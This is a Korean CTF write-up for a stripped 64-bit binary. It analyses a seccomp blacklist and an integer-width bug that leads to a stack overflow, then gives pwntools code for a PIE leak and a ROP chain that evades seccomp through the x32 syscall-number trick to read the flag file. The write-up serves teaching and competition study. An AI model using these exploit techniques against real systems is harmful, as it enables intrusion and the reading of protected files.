# 취약점 분석

## 바이너리 개요

### 보호기법



보호기법

- NX
- PIE
- RELRO

### 바이너리 정보

```python
gissa_igen: ELF 64-bit LSB shared object
x86-64, version 1 (SYSV)
dynamically linked
interpreter /lib64/ld-linux-x86-64.so.2
BuildID[sha1]=734a8aeeff274eb59ee3c7ac733056d95b41e80f
stripped
```

## 바이너리 분석

**메인 출력**



메인 출력 부분

- 바이너리를 동작할 경우 `flag (1/3)` 문자열을 출력하면서 사용자의 입력 값을 받기 위해 대기 상태에 있는다.
- 사용자가 입력을 할 경우 만약 공백이면 `try again` 문자열을 출력하면서 재 입력을 한며 카운터가 증가하지 않는다.
- 사용자가 입력을 할 경우 만약 입력 값이존재 한다면 어떤 로직을 바탕으로 검증을 하여 틀리게 되면 `is not right` 문자열을 출력하면서 카운터가 증가 한다.

**system call 추적**




strace

- system call을 추적한 결과 `stat` 함수가 '/home/ctf/flag' 파일의 상태 여부와 `open` 함수를 바탕으로 읽기 전용으로 데이터를 읽어오는 것을 확인할 수 있다.
- 밑 분을 잘 보면 `prctl` 함수의 인자로 `PR_SET_SECCOMP` 을 전달하여 seccom 보호 기법을 사용하는 것을 확인할 수 있으며 `SECCOMP_MODE_FILTER` 모드를 사용하여 블랙리스트 기반으로 접근제어를 하고 있다.

## SECCOMP_MODE_FILTER LIST

- david942j 개발한 seccomp-tools를 활용하여 블랙리스트를 확인하였다.




SECCOMP_MODE_FILTER LIST

- 블랙리스트 기반으로 차단된 리스트를 확인한 결과 `open`, `clone`, `fork`, `vfork`, `execve`, `creat`, `execveat` 함수가 차단되어 바이너리상에서  호출이 불가능하다.


## main 함수 분석




main 함수

- 바이너리가 strippe 되어 있지만 기본적으로 함수들이 syscall 하는 방식으로 동작하여 각각의 함수들이 어떤 함수인지를 유추할 수 가 있다.
- 제일 처음으로 호출되는 `syscall_filter()` 함수는 `prctl` 함수의 인자로 `PR_SET_SECCOMP`  을 사용하여 활성화를 하는 로직임을 확인할 수 있다.




main 함수 지역 변수

- `sub_73E` 함수는 해당 140 바이트 짜리 buf 배열을 인자로 사용하는데 내부 데이터를 전부 0으로 만든다.
- 다음 루프에서는 cnt+3을 하게 되는데 해당 cnt 값은 0으로 초기화되어 있는 상태이며 3번 루프를 돌 것으로 분석된다.
- 루프가 될 기능을 살펴 보면 `flag ( i-cnt / 3)` 형식으로 출력되는 것을 확인할 수 있으며 해당 루프에서 빠져 나가지 않는 이상 계속 카운팅 되는 것을 확인할 수 있다.
- `sub_91E` 함수의 인수 로 `buf`, `&size`, `&cnt` 를 사용하여 호출되면 반환된 값으로 루프의 종료 조건으로 들어가는 것으로 보아 해당 함수에서 특정 로직으로 검증 여부가 존재한다는 사실을 알 수 있다.

## sub_91E 함수 분석




strlen

- `sub_777` 함수의 인수 값으로 `qword_202000` 사용하며 해당 부분은 main 함수에서 `syscall_filter` 함수 내부의 open 함수를 바탕으로 `/home/ctf/flag` 파일의 문자열인 것으로 파악된다.
- `sub_777` 함수는 내부적으로 바이트 단위로 주소 번지를 이동하면서 해당 카운팅된 값을 정수 형태로 반환하는 것으로 보아 `strlen` 함수임을 인지할 수 있다.




sub_777




sub_88B

- `sub_88B` 함수는 `read` 함수를 바탕으로 입력을 받게 되는데 인자로 사용된 값은 __int64 데이터 타입의 a1즉 buf배열을 인자로 사용하며, 두 번째 인자는 size 변수를 사용하는 것을 확인할 수 있다.
- 입력 값의 길이를 반환하게 된다.




main 함수2

- 조건을 분석해 보면 flag 문자열과 사용자가 입력한 buf를 비교하여 일치 하지 않을 시 `is not right.` 문자열을 출력하고 0을 반환하면서 종료
- 만약 조건을 만족하여 루프를 수행 했다면 `:)` 출력하여 입력 값의 길이를 반환한다.
- 만약 아무런 값을 입력 하지 않았을 경우 길이 값이 0이면은 `try again` 을 출력 하면서 `cnt` 값을 증가 시키는 것을 확인할 수 있다.

## Integer Issue




Integer Issue

- `sub_91E` 함수에서는 인자로 main에서 받은 buf, size, cnt 변수를 사용하고 있다. 하지만 main 함수에서 선언된 데이터 타입을 잘 확인해 보면 size, cnt 변수는 __int16, 16 bit를 사용하는 것을 확인할 수 있으며 sub_91E 함수의 인자 데이터 타입은 32bit로 받고 있는 것을 확인할 수 있다.
- 낮은 데이터 크기에서 높은 데이터 크기로 이동 된다면 C 언어 특성상 타입이 명시적으로 큰 쪽으로 확장되게 되어 16bit로 사용하던 데이터 크기가 32bit 까지 사용이 가능해져 다른 메모리 주소 영역을 사용할 수 있게 되는 취약점이 발생한다.




integer issue

- 데이터 크기가 32bit로 확장되어 cnt 변수의 영역까지 인식하게 되어 `0x1008b` 사이즈 값을 사용하게 되어 `input_len(buf, 0x1008b)` 호출되어 스택 버퍼 오버플로우가 발생한다.
- 스택 버퍼 오버플로우가 발생할 수 있다면 메모리 주소상에 존재하는 PIE 주소를 릭을 할 수 가 있다.

## 메모리 주소 노출, 스택 버퍼 오버플러우




buf

- buf[140] 바이트를 채운 후 사이즈값이 integer issue로 인해 `0x1008b` 까지 입력을 받을 수 있기 때문에 해당 PIE 주소 부분까지 덮을 수 있게 된다.



# 해결 방안

leak

- 메모리 주소가 출력이 가능한 곳은 사용자의 입력값이 틀렸을 경우 buf의 공간을 출력해주는데 이때 널 바이트 까지 인식하여 출력하는 strlen 함수의 특성을 이용하여 PIE 주소 까지 메모리 주소를 덮고 출력을 하게 된다면 주소를 노출 시킬 수 있다.
- 해당 노출 된 부분으로 PIE 주소 첫 번째 엔트리 부분을 알 수 있기 때문에 오프셋을 바탕으로 필요한 함수를 사용할 수 가 있겠다.

```python
# buffer size ++
print p.sendlineafter(":", "")

# size = 0xa0
payload = p8(0xff)*140
payload += p16(0xa0)
payload += p16(0x0)
print p.sendlineafter(':',payload)

# PIE leak
payload = p8(0xff)*140
payload += p16(0xffff)*2
payload += p8(0xff)*(0xa0-len(payload))

p.send(payload)
p.recvuntil("): ")
p.recv(160)
pie_addr = u64(p.recv(6).ljust(8,
'\x00'))
log.info("PIE_leak : "+hex(pie_addr))

# lib base
pie_base = pie_addr - 0xbb7
log.info("PIE_base : "+hex(pie_base))
p.interactive()
```

1. buf size 증가
    - 스택 버퍼 오버플로우 버그를 만들기 위해 공백 문자를 집어넣어 `v7++` 하여 size가 `0x1008b` 상태로 만든다.
2. PIE leak 공간 만들기
    - PIE 주소 값은 buf[140]을 지나서 20 바이트 위치에 존재하기 때문에 사이즈를 변경해준다.
3. PIE leak
    - size, v7을 16bit 최대 정수 값으로 바꿔주고 160 바이트 전부 데이터를 채워 PIE 주소를 leak할 수 있는 상태로 오버 플로우를 한다.
4. 160 바이트까지 응답을 받은 후에 PIE 주소 값을 긁어와 베이스 주소를 구하자




leak pie

## 64bit ROP

## seccomp_filter_mode 우회

- NX가 켜져있고 Full Relro라 GOT overwrite가 안되기 때문에 ROP를 하여 특정 행위를 해야 한다. 하지만 중요한 사실은 앞에서 언급한 SECCOMP_FILTER가 걸려 있기 때문에 open, execve.. system call을 사용할 수 없다.




do_syscall_64

- syscall num을 나태는 `unsigned long` 타입의 `nr` 변수가 `sys_call_table` 배열의 인덱스로 사용되며 `nr & 0x40000000` 조건 부분을 만족하여 0이 아니라면 `nr & ~0x40000000` 에서 nr 값의 31 번째 비트를 0으로 만들게 된다.




bit

- seccomp_filter에서는 system call num의 예외를 검증하지 않기 때문에 `0x40000000|systemcall num` or 연산을 하여 원한는 시스템 콜 번호를 삽입하여 우회를 할 수 있다.

## 64bit ROP




ROP Gadget




syscall

- syscall을 할 read, open, write 의 인자는 총 3, 2개 이기 때문에 rdi, rsi, rdx 레지스터가 필요하다.
- 해당 부분에서 구할 수 있는 가젯은 위 사진과 같으며 필요없는 레지스터는 아무 값이나 넣어주면되겠다.

```python
pop_rdx = 0xc1d + pie_base
pop_rax_rdi_rsi = 0xc21 + pie_base
syscall= 0xc45 + pie_base

ROP = p8(0x41)*168

# read(0, bss, len(flag));
ROP += p64(pop_rax_rdi_rsi)
ROP += p64(0)  							
ROP += p64(0)           				
ROP += p64(0)							
ROP += p64(pop_rdx)		
ROP += p64(len("/home/ctf/flag\x00"))
ROP += p64(0)
ROP += p64(0)
ROP += p64(0)							
ROP += p64(pie_base + e.bss())     		
ROP += p64(syscall)

# open(bss, 0, 0)
ROP += p64(pop_rax_rdi_rsi)
ROP += p64(0x40000002)  				
ROP += p64(0)           				
ROP += p64(0)							
ROP += p64(pop_rdx)		
ROP += p64(0)
ROP += p64(0)
ROP += p64(0)
ROP += p64(pie_base + e.bss())			
ROP += p64(0)     
ROP += p64(syscall)

# read(3, bss, 0x64)
ROP += p64(pop_rax_rdi_rsi)
ROP += p64(0)  			
ROP += p64(0)           
ROP += p64(0)			
ROP += p64(pop_rdx)		
ROP += p64(0x64)
ROP += p64(0)
ROP += p64(0)
ROP += p64(3)     		
ROP += p64(pie_base + e.bss())
ROP += p64(syscall)

# write(1, bss, 0x64)
ROP += p64(pop_rax_rdi_rsi)
ROP += p64(1)  				
ROP += p64(0)           	
ROP += p64(0)				
ROP += p64(pop_rdx)		
ROP += p64(0x64)
ROP += p64(0)
ROP += p64(0)
ROP += p64(1)     						
ROP += p64(pie_base + e.bss())			
ROP += p64(syscall)

print p.sendlineafter(":", ROP) 
print p.send("/home/ctf/flag\x00")

p.interactive()
```

1. 가젯 주소 구하기
    - PIE 가 걸려 있기 때문에 앞에서 구한 PIE base 주로랑 더해 실제 주소로 바꿔준다.
2. 스택 오버 플로우
    - ROP Gadget 주소로 이동하기 위해 168 바이트에 위치하는 리턴 주소까지 더미 값을 채워준다.
3. flag 파일 경로 입력 받기
    - 우리는 open 함수를 우회하여 사용이 가능하기 때문에
    - flag 파일의 경로가 필요하다 open 함수로 받기에는 길이 값이 크기 때문에 직접 read 함수를 사용하여 입력 받을 수 있도록 한다.
    - 중요한 점은 bss 영역에 write 권한이 존재하기 때문에 해당 부분에 입력한다.
4. flag 파일 open
    - seccomp filter를 우회하기 위해 syscall num을 0x40000000가 or 연산한 값을 보낸다.
    - 그리고 bss 영역의 첫 번째 주소에 해당하는 값을 읽어 오면 된다.
5. flag값 읽어오기
    - open 함수의 반환 값인 default 다음 fd인 3 번째를 사용하여 정보를 읽어와 bss 영역에 저장한다.
6. 출력하기
    - stdout fd사용하여 bss 영역에 존재하는 flag 값을 출력한다.

## flag




- flag를 획득할 수 있다.

```toc
```